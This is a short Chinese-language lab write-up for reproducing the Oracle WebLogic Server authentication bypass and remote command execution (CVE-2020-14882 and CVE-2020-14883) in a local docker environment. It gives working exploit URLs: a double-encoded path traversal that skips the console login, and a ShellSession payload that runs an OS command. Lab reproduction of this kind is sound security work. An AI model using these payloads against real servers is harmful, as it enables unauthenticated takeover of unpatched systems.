



# Oracle WebLogic Server 未授权远程命令执行漏洞
## 漏洞描述
Oracle WebLogic Server 未授权远程命令执行漏洞

version:12.2.1.3
## 启动
`docker-compose up -d`,访问`http://localhost:7001/console`
  
  
## writeup  
CVE-2020-14882:  
  
`http://localhost:7001/console/css/%252e%252e%252fconsole.portal`  
  
访问该url即可绕过登录页  

CVE-2020-14883  

`http://localhost:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")`  

访问该url执行命令(无回显)  

## 复现结果
  
  
